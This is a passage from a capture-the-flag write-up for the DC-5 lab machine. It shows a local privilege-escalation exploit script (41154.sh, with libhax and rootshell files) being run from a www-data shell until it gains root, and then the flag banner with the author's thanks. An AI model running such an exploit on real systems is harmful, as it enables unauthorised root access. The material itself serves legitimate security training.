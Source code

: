 ```
41154.sh  exploit.tar.gz  libhax.c  libhax.so  rootshell  rootshell.c
```

At last grant permission and execute the exploit.
```
www-data@dc-5:/tmp$ chmod +x 41154.sh 
www-data@dc-5:/tmp$ ./41154.sh 
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

# The Flag

```
# cat thisistheflag.txt


888b    888 d8b                                                      888      888 888 888 
8888b   888 Y8P                                                      888      888 888 888 
88888b  888                                                          888      888 888 888 
888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888 
888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888 
888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P 
888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "  
888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888 
                                                                                          
                                                                                          


Once again, a big thanks to all those who do these little challenges,
and especially all those who give me feedback - again, it's all greatly
appreciated.  :-)

I also want to send a big thanks to all those who find the vulnerabilities
and create the exploits that make these challenges possible.

```
